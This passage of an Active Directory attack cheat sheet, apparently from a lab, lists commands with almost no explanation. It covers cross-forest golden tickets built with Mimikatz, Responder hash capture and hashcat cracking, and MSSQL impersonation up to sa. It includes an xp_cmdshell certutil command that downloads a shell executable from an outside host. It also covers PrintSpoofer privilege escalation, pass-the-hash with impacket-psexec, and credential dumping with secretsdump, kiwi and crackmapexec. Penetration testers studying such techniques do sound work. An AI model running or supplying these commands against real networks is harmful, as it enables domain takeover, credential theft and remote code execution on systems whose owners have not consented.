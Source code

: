 ## 9. Cross-Forest Trust Attacks
```powershell
# Enumerate Trust Relationships:
Get-DomainTrust
Get-DomainUser -Domain TRI.BYTESHIELD.local -Properties samaccountname,memberof

# Golden Ticket in Cross-Forest Scenario:
kerberos::golden /user:fake /domain:TRI.BYTESHIELD.local /sid:S-1-5-21-961384531-1508825278-244064522 /krbtgt:d4c73ff9e62e80ac282ff90aa7c7e145 /sids:S-1-5-21-2650123447-3108711000-1796582875-519 /ptt
export KRB5CCNAME=hacker.ccache
proxychains4 -q impacket-psexec hacker@ROOT-DC01.BYTESHIELD.local -k -no-pass -target-ip 10.10.1.13
```

## 10. Additional Techniques
### 10.1 LLMNR / NBNS Attacks
```bash
# Capturing NTLM Hashes with Responder:
Responder -I eth0 -wd

# Offline Hash Cracking:
.\hashcat.exe -a 0 -m 5600 .\NThashes.txt .\PasswordList.txt
```

### 10.2 MSSQL Server Impersonation (Nested Impersonation)
```bash
# Check and Elevate MSSQL Privileges:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
EXECUTE AS LOGIN = 'Kevin';
SELECT IS_SRVROLEMEMBER('sysadmin');
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin'); 

# Reverse Shell Upload via MSSQL:
EXEC master..xp_cmdshell "certutil -urlcache -f http://192.168.0.101/Shell.exe C:\Users\Public\Shell.exe";
PrintSpoofer.exe -i -c cmd
```

### 10.3 Pass-the-Hash (Revisited)
```bash
# Using PtH with Impacket-psexec, Authenticates to a target using NTLM hash without cracking the clear-text password. 
proxychains4 -q impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9d0615b4cbfc6a2c149059eddcf156b0 David.Williams@10.10.1.13
```

### 10.4 Extracting Credentials
```bash
# Dump NTLM hashes from SAM or LSASS
impacket-secretsdump -dc-ip <dc_ip> <domain>/<user>:<password>@<target_ip>

# Use Mimikatz via Impacket to extract creds
impacket-mimikatz '<domain>\<user>:<password>@<target_ip>' -k

# Using Kiwi in meterpreter session
meterpreter > load kiwi
meterpreter > creds_all

# Dump SAM hashes via SMB
crackmapexec smb <target_ip> -u <user> -p <password> --sam  
```